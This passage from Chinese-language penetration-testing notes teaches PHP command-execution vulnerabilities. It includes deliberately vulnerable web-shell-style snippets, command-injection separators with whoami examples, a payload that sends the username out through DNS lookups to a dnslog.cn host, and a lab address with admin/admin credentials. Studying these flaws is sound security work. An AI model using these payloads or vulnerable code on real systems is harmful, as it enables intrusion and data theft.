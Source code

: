 ~~~shell
$fun = $_REQUEST['cmd'];
echo $fun();//动态调用函数
?>
#request参数是post和get都可以
# 回调函数：call_user_func
<?php call_user_func($_REQUEST['call'],$_REQUEST['cmd']);?>
#练习
http://172.168.20.40:8118/mdmsfv/#
admin/admin
~~~



## 2、命令执行

应用有时需要调用一些执行系统命令的函数，如PHP中的system、exec、shell_exec、passthru、popen、proc_popen等，当用户能控制这些函数中的参数时，就可以将恶意系统命令拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞。

~~~shell
# 常用执行命令
1、system函数：用来执行一个外部的应用程序并将相应的执行结果输出
2、Passthru函数：函数可以用来执行一个UNIX系统命令并显示原始的输出
3、Exec函数：用来执行一个外部的应用程序
4、Eval函数：函数会将参数字符串作为PHP程序代码来执行，将php代码保存成字符串的形式然后传递给eval函数执行。
# 一、system函数
<?php
$cmd = $_GET['cmd'];
system($cmd);
//cmd=whoami
?>
# 1、windows
| 直接执行后面的语句 ping 127.0.0.1 | whoami
|| 前面语句为假，执行后面的 ，前面为假 ping 2 || whoami
& 前面语句为假则直接执行后面的,前面可真可假 ping 127.0.0.1&whoami
&& 前面的语句为假则直接出错，后面的也不执行，前面只能为真 ping 127.0.0.1&&whoami
# 2、linux
; 前面的执行完执行后面的 ping 127.0.0.1;whoami
| 管道符，显示后面的执行结果 ping 127.0.0.1|whoami
|| 当前面的执行出错时执行后面的 ping 1||whoami
& 前面的语句为假则直接执行后面的,前面可真可假 ping 127.0.0.1&whoami
&& 前面的语句为假则直接出错，后面的也不执行，前面只能为真 ping 127.0.0.1&&whoami
# shell_exec函数
<?php
highlight_file(__FILE__);//显示代码
$ip = $_GET['ip'];
$addr = shell_exec('ping '.$ip);
//echo '<pre>'.$addr.'</pre>';
?>
# payload
http://xx.xx.xx.xx/shell_exec.php?ip=12|ping %USERNAME%.znbth5.dnslog.cn
# 资料
https://blog.csdn.net/zhangge3663/article/details/117413265
# 若无回显
1、wpxi8b,dnslog.cn
	%USERNAME%.wpxi8b.dnslog.cn
	linux：ping 'id'.wpdj.dnslog.cn
2、ip=123|echo '111' > aaa.txt
3、反弹shell

~~~
